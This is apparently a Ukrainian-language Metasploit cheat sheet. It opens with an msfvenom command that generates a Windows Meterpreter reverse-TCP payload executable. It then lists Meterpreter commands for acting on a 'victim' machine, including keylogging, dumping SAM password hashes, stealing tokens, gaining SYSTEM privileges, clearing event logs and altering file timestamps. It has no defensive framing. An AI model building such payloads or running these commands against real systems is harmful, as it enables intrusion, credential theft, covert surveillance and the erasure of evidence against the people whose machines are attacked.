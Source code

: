 ## Створення payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -a x64 -o /home/kali/payload.exe

## Основні команди Meterpreter:

**?** — меню допомоги  
**background** — переносить поточний сеанс в фоновий режим.  
**bgkill** — завершує фоновий скрипт meterpreter.  
**bglist** — відображає список всіх запущених фонових скриптів.  
**bgrun** — запускає скрипт як фоновий потік.  
**channel**  — відображає активні канали.  
**close** — закриває канал.  
**exit** — завершує севнс роботи з meterpreter.  
**help** — меню довідки.  
**interact** — взаємодіє з каналом.  
**irb** — перейти в режим сценарію Ruby.  
**migrate** — переносить активний процес на указаний PID.  
**quit** — завершує сеанс meterpreter.  
**read** — читає дані з каналу.  
**run** — виконує створений після нього скрипт meterpreter.  
**use** — завантажує розширення meterpreter.  
**write** — записує дані в канал.  

## Команди файлової системи

**cat** — читання і виведення вмісту файлу.  
**cd** — перейти в папку.  
**del** — видалити файл.  
**download** — завантажити файл з системи на свій ПК.  
**edit** — редагувати файл за допомогою vim.  
**getlwd** — показати локальний каталог.  
**getwd** — показати робочий каталог.  
**lcd** — змінити локальний каталог.  
**lpwd** — відобразити шлях локальної директорії.  
**ls** — список файлів в поточному каталозі.  
**mkdir** — створити каталог.  
**pwd** — відобразити шлях кореневого каталогу до до поточного робочого каталогу.  
**rm** — видалити файл.  
**rmdir** — видалити каталог в жертви.  
**upload** — завантажити файл зі своєї системи на на поточну машину.  

## Мережеві команди Meterpreter:

**clearav** — очищуэ журнал подый на комп'ютері жертви.  
**execute** — виконує команду.  
**getpid** — отримує ідентифікатор поточного процесу (PID).  
**getprivs** — отримує максимально можливі привілегії.  
**getuid** — отримати користувача від якого запущений сервер.  
**kill** — завершити процес, позначений PID.  
**ps** — список запущених процесів.  
**reboot** — перезавантажує комп'ютер жертви.  
**reg** — взаємодіяти з реєстром жертви.  
**rev2self** — викликає RevertToSelf () на машині жертви.  
**shell** — відкриває командний рядок на машині жертви.  
**shutdown** — виключає комп'ютер жертви.  
**steal_token** — намгається викрасти токен вказаного (PID) процесу.  
**sysinfo** — отримує детальну інформацію про комп'ютер жертви, таку ​як ОС і ім'я комп'ютера.  

## Команди користувацького інтерфейсу:  
**enumdesktops** — список всіх доступних робочих столів.  
**getdesktop** —отримати поточний робочий стіл meterpreter.  
**idletime** — перевіряє, скільки часу система жертви була в простої.  
**keyscan_dump** — вивантажує змість програмного забезпечення келогеру.  
**keyscan_start** — запускає програмний кейлогер, коли він звязаний з процесом, таким як Word чи браузер.  
**keyscan_stop** — зупиняє програмний кейлогер.  
**screenshot** — робить знімок екрану робочого столу meterpreter.  
**set_desktop** — змінює робочий стіл meterpreter.  
**uictl** — дозволяє керувати деякими компонентами користувацького інтерфейсу.  

## Команди підвищення привілеїв:  

**getsystem** — використовує 15 встроєних методів для отримання привілеїв системного адміністратора.  

## Команди дампу пароля:  

**hashdump** — захватє хеши з файлу паролів (SAM).  

## Команды Timestomp:  

**timestomp** — керує зміною, доступом і створеням атрибутів файлу.  


